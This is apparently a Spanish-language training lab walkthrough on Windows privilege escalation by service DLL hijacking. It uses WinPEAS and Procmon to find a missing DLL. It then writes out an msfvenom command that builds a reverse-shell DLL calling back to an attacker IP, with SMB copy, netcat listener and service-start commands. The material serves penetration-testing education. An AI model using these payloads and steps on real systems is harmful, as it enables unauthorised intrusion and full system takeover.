










> [[02 - MODULOS/05 - Prácticas (PoCs)|← Volver a Prácticas (PoCs)]] | [[02 - MODULOS/Prácticas (PoCs)/Escalada de Privilegios en Windows/00 - Índice del Módulo Escalada de Privilegios en Windows|Índice del Módulo]]

---
# Servicios: DLL Hijacking

# 📚 Servicios - DLL Hijacking

 
 

## 📖 ENUNCIADO (DESCRIPCIÓN)

 

### ⚙️ Explotando Servicios en Windows

 

La elevación de privilegios en Windows a través de servicios es una técnica utilizada para obtener permisos más altos en un sistema operativo Windows aprovechando vulnerabilidades o debilidades en los servicios que se ejecutan en él. Un servicio en Windows es un programa que se ejecuta en segundo plano y realiza diversas funciones en el sistema.

 

### 🎯 Vectores de Ataque a Servicios

 

Existen varias formas en las que un atacante puede intentar elevar sus privilegios a través de servicios en Windows:

 

> [!warning]
> 
 
> #### ⚠️ Técnicas de Explotación de Servicios:
> 

> 

> 
> 1. 
> **Explotación de vulnerabilidades conocidas:** Los servicios en Windows pueden contener vulnerabilidades que permiten a un atacante ejecutar código malicioso con privilegios elevados. Si se descubre una vulnerabilidad en un servicio y no se aplica un parche o actualización, un atacante puede aprovecharla para obtener privilegios más altos.
> 
 
> 2. 
> **Uso de servicios débilmente configurados:** Algunos servicios en Windows pueden tener configuraciones débiles que permiten a un atacante modificar su comportamiento o ejecutar comandos con privilegios elevados. Por ejemplo, si un servicio se está ejecutando con privilegios de administrador y se puede manipular su configuración para ejecutar un programa malicioso, el atacante podría obtener privilegios elevados.
> 
 
> 3. 
> **Suplantación de servicios legítimos:** Un atacante puede crear un servicio falso con un nombre similar al de un servicio legítimo y hacer que el sistema lo ejecute automáticamente al inicio. Este servicio falso puede estar diseñado para ejecutar código malicioso con privilegios elevados, engañando al sistema y al usuario.
> 
 
> 4. 
> **Ataques de reescritura de DLL (DLL Hijacking):** En algunos casos, un atacante puede modificar las rutas de búsqueda de DLL (bibliotecas de enlace dinámico) utilizadas por un servicio. Si el atacante logra colocar una DLL maliciosa en una de las rutas de búsqueda, el servicio puede cargar esa DLL en lugar de la legítima, lo que le permite ejecutar código malicioso con privilegios elevados.
> 
 
> 5. 
> **Unquoted Service Paths:** La vulnerabilidad de la ruta no citada (unquoted path) es una vulnerabilidad común que puede afectar a los servicios de Windows. Esta vulnerabilidad se produce cuando una ruta de archivo no está encerrada entre comillas dobles ("") en el registro de Windows, lo que puede llevar a un comportamiento inesperado y potencialmente malicioso.
> 

> 

 

### 🛡️ Prevención de Elevación de Privilegios

 

Para prevenir la elevación de privilegios a través de servicios en Windows, es importante seguir buenas prácticas de seguridad, como:

 

> [!tip]
> 
 
> #### ✅ Buenas Prácticas de Seguridad:
> 
 

> 
> * Mantener actualizado el sistema operativo y los servicios instalados, aplicando los parches y actualizaciones de seguridad correspondientes.
> 
> * Configurar adecuadamente los servicios, minimizando los privilegios necesarios para su ejecución.
> 
> * Utilizar contraseñas seguras para las cuentas de servicio y evitar utilizar credenciales de administrador cuando no sean necesarias.
> 
> * Implementar mecanismos de control de acceso y políticas de seguridad adecuadas.
> 
> * Utilizar soluciones de seguridad, como antivirus y firewalls, para detectar y prevenir ataques.
> 

> 

 

 
 

## 🔍 Descubriendo Vulnerabilidades - DLL Hijacking

 

### 🛠️ Paso 1: Ejecutar WinPEAS

 

Vamos a usar **WinPEAS** para ver si los servicios son vulnerables a DLL Hijacking.

 


 

Si queremos podemos enviarlo directamente a nuestra Kali por SMB:

 



 

### 📊 Paso 2: Analizar los Resultados

 

Vemos el documento txt que hemos recibido.

 

Ahora podemos ver que el servicio **dllsvc** es vulnerable a DLL Hijacking, y además la máquina tiene un directorio que se puede aprovechar para ese hijacking.

 


 



 



 

> [!note]
> 
 
> #### 💡 ¿Qué es DLL Hijacking?
> 
 
> El **DLL Hijacking** (secuestro de DLL) es una técnica de ataque que aprovecha el orden de búsqueda de DLLs en Windows. Cuando un programa necesita cargar una DLL, Windows la busca en varios directorios siguiendo un orden específico:
> 

> 
> 1. El directorio desde donde se carga la aplicación
> 
> 2. El directorio del sistema (C:\Windows\System32)
> 
> 3. El directorio de Windows (C:\Windows)
> 
> 4. El directorio actual
> 
> 5. Los directorios en la variable de entorno PATH
> 

> 
> Si un atacante puede colocar una DLL maliciosa con el mismo nombre que una DLL legítima en un directorio que se busca ANTES que la ubicación legítima, el servicio cargará la DLL maliciosa.
> 

 

### 🔍 Paso 3: Verificar la Configuración del Servicio

 

Verificamos la configuración del servicio y vemos la ruta del archivo que ejecuta:

 

```cmd
C:\tools> sc qc dllsvc
```

 



 

### 📊 Paso 4: Validar el Estado del Servicio

 

Validamos el estado actual del servicio:

 

```cmd
C:\tools> sc query dllsvc
```

 



 

### 🔐 Paso 5: Verificar Permisos del Ejecutable

 

Usamos **icacls** para ver los permisos asociados al ejecutable:

 

```cmd
C:\tools> icacls "C:\Program Files\DLL Hijack Service\dllhijackservice.exe"
```

 



 

### 📤 Paso 6: Transferir el Ejecutable a Kali

 

Copiamos el ejecutable a nuestra Kali para analizarlo:

 



 

 
 

## 🔬 Análisis con Process Monitor (Procmon)

 

Ya en nuestra Kali lo tenemos que pasar a un sistema con Windows y analizarlo con la herramienta **procmon64.exe** con la cual podemos ver que al iniciar el servicio intenta abrir una DLL llamada `hijackme.dll` en diferentes PATH.

 

### ⚙️ Configuración de Process Monitor

 

 
1. 

Abrimos **procmon64** como administrador
 
2. 

Paramos temporalmente la captura (**Ctrl + E**)
 
3. 

Configuramos el filtro
 

 



 

> [!tip]
> 
 
> #### 🔧 Filtros de Process Monitor:
> 
 
> 
> 
> 
> 
> 
> 
> 
> 
> 
> 
> 
> 
> 
> 
> 
> 
> 
> 
> 
> 
> 
> 
> 
> 
> 
> 
> 
> 
> 
> | Campo | Operador | Valor | Acción |
> | --- | --- | --- | --- |
> | Process Name | is | dllhijackservice.exe | Include |
> | Result | is | NAME NOT FOUND | Include |
> | Path | ends with |.dll | Include |
> 
 

 

 
1. 

Tras poner el filtro pulsamos en **Apply**
 
2. 

Empezamos a capturar (**Ctrl + E**)
 
3. 

Y ejecutamos el servicio o lo reiniciamos si lo vemos en el propio sistema
 

 

### 📋 Resultados del Análisis

 

Ahora en las operaciones **CreateFile** vemos las DLL que carga:

 



 

> [!note]
> 
 
> #### 💡 Operation CreateFile:
> 
 
> **CreateFile** es una operación que intenta la apertura de un archivo existente. Si el archivo ya existe, CreateFile puede abrirlo para lectura, escritura o ambos, según los parámetros especificados.
> 
> Cuando vemos **NAME NOT FOUND** en el resultado, significa que el servicio está intentando cargar una DLL que **no existe** en esa ubicación. Esto es una oportunidad perfecta para DLL Hijacking.
> 

 

 
 

## 💥 Explotando la Vulnerabilidad - DLL Hijacking

 

### 🔨 Paso 1: Crear la DLL Maliciosa

 

Utilizamos **msfvenom** para crear nuestra DLL con un reverse shell:

 

```bash
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.0.5 LPORT=443 --platform windows -f dll -o hijackme.dll
```

 



 

> [!warning]
> 
 
> **⚠️ Parámetros importantes:**
> 

> 
> * `-p windows/x64/shell_reverse_tcp` → Payload de shell inversa para Windows 64 bits
> 
> * `LHOST=10.0.0.5` → IP de Kali Linux (atacante)
> 
> * `LPORT=443` → Puerto de escucha
> 
> * `--platform windows` → Plataforma objetivo
> 
> * `-f dll` → Formato DLL
> 
> * `-o hijackme.dll` → Archivo de salida
> 

> 

 

### 📤 Paso 2: Transferir la DLL a Windows

 

Lo pasamos a la máquina de Windows por SMB:

 

```cmd
C:\tools> copy \\10.0.0.5\info\hijackme.dll.\
```

 

### 📁 Paso 3: Colocar la DLL en la Ubicación Vulnerable

 

Nosotros vamos a aprovechar el directorio `C:\Temp` para poner nuestra DLL:

 

```cmd
C:\tools> copy hijackme.dll C:\Temp
```

 

> [!tip]
> 
 
> #### 🎯 ¿Por qué C:\Temp?
> 
 
> Según el análisis de Process Monitor, el servicio busca la DLL `hijackme.dll` en varios directorios siguiendo el orden de búsqueda de Windows. Si `C:\Temp` está en ese orden de búsqueda ANTES de la ubicación legítima (o si no existe una ubicación legítima), el servicio cargará nuestra DLL maliciosa.
> 

 

### 🎧 Paso 4: Poner Netcat a la Escucha en Kali

 

```bash
$ nc -lvnp 443
```

 

### 🚀 Paso 5: Iniciar el Servicio en Windows

 

```cmd
C:\tools> net start dllsvc
```

 

### ✅ Paso 6: Recibir la Shell en Kali

 

Al iniciar el servicio, este cargará nuestra DLL maliciosa y obtendremos una shell en Kali:

 


 

> [!tip]
> 
 
> #### 🎉 ¡Éxito!
> 
 
> Hemos obtenido una shell con los privilegios del servicio mediante DLL Hijacking. Si el servicio se ejecutaba como **NT AUTHORITY\SYSTEM**, ahora tenemos control total del sistema.
> 
> Verificar privilegios:
> 
> ```cmd
> C:\> whoami
> C:\> whoami /priv
> ```
> 
 

 

 
 

## 📚 Resumen

 

> [!tip]
> 
 
> ### 🎓 Lo que hemos aprendido:
> 
 

> 
> * ✅ Los servicios de Windows pueden ser vulnerables a DLL Hijacking
> 
> * ✅ WinPEAS identifica servicios vulnerables a DLL Hijacking
> 
> * ✅ Process Monitor (procmon) nos ayuda a identificar qué DLLs intenta cargar un servicio
> 
> * ✅ Windows busca DLLs en un orden específico de directorios
> 
> * ✅ Podemos crear DLLs maliciosas con msfvenom
> 
> * ✅ Colocando una DLL maliciosa en la ruta de búsqueda, el servicio la cargará
> 
> * ✅ Al cargar nuestra DLL, obtenemos ejecución de código con privilegios del servicio
> 

> 
 
> ### 🔄 Flujo del Ataque:
> 
 

> [!note]
> 
 
> 
 **WinPEAS** → 
> **Identificar servicio vulnerable** → 
> **Analizar con Procmon** → 
> **Identificar DLL faltante** → 
> **Crear DLL maliciosa** → 
> **Colocar DLL en path vulnerable** → 
> **Iniciar servicio** → 
> **Shell con privilegios elevados**
> 
> 

> 
 
> ### 🔑 Conceptos Clave:
> 
 
> 
> 
> 
> 
> 
> 
> 
> 
> **DLL Search Order**
> 
> 
> 
> **CreateFile (NAME NOT FOUND)**
> 
> 
> 
> **Process Monitor**
> 
> 
> 
> **msfvenom**
> 
> 
> 
> 
> | Concepto | Descripción |
> | --- | --- |
> | | Orden en que Windows busca DLLs al cargarlas |
> | | Indica que el servicio busca una DLL que no existe |
> | | Herramienta para monitorizar operaciones del sistema en tiempo real |
> | | Herramienta para generar payloads en diferentes formatos |
> 

> 
> ### 🎯 Navegación:
> 
 
> ← Práctica 03-01: Servicios - Insecure Permissions
> 
> → Práctica 03-03: Servicios - Unquoted Path
>

---

> [[02 - MODULOS/05 - Prácticas (PoCs)|← Volver a Prácticas (PoCs)]] | [[02 - MODULOS/Prácticas (PoCs)/Escalada de Privilegios en Windows/00 - Índice del Módulo Escalada de Privilegios en Windows|Índice del Módulo]]
